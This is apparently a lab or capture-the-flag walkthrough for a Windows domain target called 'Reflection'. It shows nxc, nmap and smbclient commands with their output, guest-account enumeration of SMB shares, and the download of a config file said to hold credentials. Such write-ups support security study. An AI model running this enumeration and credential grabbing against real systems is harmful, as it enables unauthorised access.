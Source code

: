 - A common human mistake

we can start with nxc for checking hostname

    ➜  Reflection nxc smb 10.10.129.245
    SMB         10.10.129.245   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)
    ➜  Reflection nxc smb 10.10.129.246
    SMB         10.10.129.246   445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:reflection.vl) (signing:False) (SMBv1:False)
    ➜  Reflection nxc smb 10.10.129.247
    ➜  Reflection 

i wanna also check nmap

    ➜  Reflection nmap -sC -sV -Pn -vv 10.10.129.246
    Discovered open port 135/tcp on 10.10.129.246
    Discovered open port 3389/tcp on 10.10.129.246
    Discovered open port 445/tcp on 10.10.129.246
    Discovered open port 1433/tcp on 10.10.129.246
    Discovered open port 5985/tcp on 10.10.129.246

there is mssql so its great to know

there is nothig interesting too much so lets go for smb enum

    ➜  Reflection nxc smb MS01 -u "guest" -p '' --shares
    SMB         10.10.129.246   445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:reflection.vl) (signing:False) (SMBv1:False)
    SMB         10.10.129.246   445    MS01             [+] reflection.vl\guest: 
    SMB         10.10.129.246   445    MS01             [*] Enumerated shares
    SMB         10.10.129.246   445    MS01             Share           Permissions     Remark
    SMB         10.10.129.246   445    MS01             -----           -----------     ------
    SMB         10.10.129.246   445    MS01             ADMIN$                          Remote Admin
    SMB         10.10.129.246   445    MS01             C$                              Default share
    SMB         10.10.129.246   445    MS01             IPC$            READ            Remote IPC
    SMB         10.10.129.246   445    MS01             staging         READ            staging environment

grab file

    ➜  Reflection smbclient \\\\MS01\\staging
    Password for [WORKGROUP\root]:
    Try "help" to get a list of possible commands.
    smb: \> ls
    .                                   D        0  Wed Jun  7 13:42:48 2023
    ..                                  D        0  Wed Jun  7 13:41:25 2023
    staging_db.conf                     A       50  Thu Jun  8 07:21:49 2023

                    6261245 blocks of size 4096. 1178692 blocks available
    smb: \> get staging_db.conf 
    getting file \staging_db.conf of size 50 as staging_db.conf (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
    smb: \> exit

and got some creds
